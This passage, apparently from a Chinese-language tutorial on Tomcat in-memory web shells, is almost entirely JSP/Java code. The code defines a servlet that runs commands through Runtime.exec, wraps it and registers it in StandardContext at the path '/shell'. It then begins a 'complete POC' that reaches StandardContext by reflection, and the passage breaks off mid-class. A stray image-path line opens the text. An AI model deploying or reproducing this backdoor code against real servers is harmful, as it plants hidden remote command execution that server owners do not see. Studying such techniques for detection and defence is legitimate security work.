 ```java
                try{
                    Runtime.getRuntime().exec(cmd);
                }catch (IOException e){
                    e.printStackTrace();
                }catch (NullPointerException n){
                    n.printStackTrace();
                }
            }
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {
        }
    }
 
%>
```

### 4.3.7、创建Wrapper对象

```java
<%
    Shell_Servlet shell_servlet = new Shell_Servlet();
    String name = shell_servlet.getClass().getSimpleName();
 
    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setLoadOnStartup(1);
    wrapper.setName(name);
    wrapper.setServlet(shell_servlet);
    wrapper.setServletClass(shell_servlet.getClass().getName());
%>
```

### 4.3.8、将Wrapper添加到StandardContext

```java
<%
    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded("/shell",name);
%>
```

### 4.3.9、完整POC

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
 
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
%>
 
<%!
 
    public class Shell_Servlet implements Servlet {
```